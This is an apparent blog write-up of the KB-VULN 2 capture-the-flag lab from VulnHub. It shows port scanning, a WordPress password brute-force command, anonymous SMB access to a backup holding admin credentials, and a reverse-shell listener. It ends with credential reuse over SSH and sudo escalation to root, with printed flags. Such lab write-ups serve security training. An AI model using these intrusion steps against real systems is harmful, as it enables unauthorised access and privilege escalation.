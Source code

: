 ```yaml
---
title: "KB-VULN: 2 Writeup"
description: "KB-VULN 2 Walkthrough"
layout: post
categories: [CTF]
---
```


{% highlight text %}
Machine Level : Easy

A machine that measures your attention and require your research. This VM is running on VirtualBox. It includes 2 flags:user.txt and flag.txt
{% endhighlight %}
You can find the .ova file [here](https://www.vulnhub.com/entry/kb-vuln-2,562/)

nmap service scan on the target:
{% highlight terminal %}
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
{% endhighlight %}

gobuster output: 
{% highlight terminal %}
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.107/wordpress/]
{% endhighlight %}
wpscan: 
{% highlight terminal %}
wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://kb.vuln/wordpress/ 
{% endhighlight %}
Trying to bruteforce the login failed so lets enumerate the Samba shares on the 
system. 

SMB enumeration: 
{% highlight terminal %}
 smbmap -H 192.168.56.107
[+] Guest session   	IP: 192.168.56.107:445	Name: kb.vuln                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Anonymous                                         	READ ONLY	OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	IPC Service (Samba Server 4.7.6-Ubuntu)
{% endhighlight %}
                                                                                         
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.107
Enter WORKGROUP\kali's password: 

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      OPEN YOUR EYES!
	IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available
{% endhighlight %}
                                                                                         
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.107/Anonymous
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 06:58:56 2020
  ..                                  D        0  Wed Sep 16 06:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 06:58:56 2020
{% endhighlight %}

There's a file inside the backup.zip archive called "remember_me.txt" which contains the
admin password for the WordPress installation: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN2]
└─$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
{% endhighlight %}


Now we can upload/inject our reverse TCP shell code either via the plugins or via the 
theme editor section of the site. 


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ nc -lp 6666                                                             2 ⨯
Linux kb-server 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:53:37 up 34 min,  0 users,  load average: 0.00, 0.75, 1.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Checking the passwd file
{% highlight terminal %}
$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
kbadmin:x:1000:1000:MachineBoy:/home/kbadmin:/bin/bash
$ 
{% endhighlight %}

{% highlight terminal %}
www-data@kb-server:/var/www$ cd html
cd html
www-data@kb-server:/var/www/html$ ls -a
ls -a
.  ..  index.html  read_ME.txt	remember_me.txt  wordpress
www-data@kb-server:/var/www/html$ cat read_ME.txt
cat read_ME.txt
system administrator is kbadmin.
good luck ;)
www-data@kb-server:/var/www/html$
{% endhighlight %}

Let's try those creds with this new user over ssh

kbadmin:MachineBoy141

{% highlight terminal %}

kbadmin@kb-server:~$ cat user.txt 
03bf4d20dac5644c75e69e40bad48db0
kbadmin@kb-server:~$ cat note.txt 
use DOCKER!
kbadmin@kb-server:~$
{% endhighlight %}

The note is a red herring. 

{% highlight terminal %}
kbadmin@kb-server:~$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL
kbadmin@kb-server:~$ sudo -i
root@kb-server:~#
root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
{% endhighlight %}

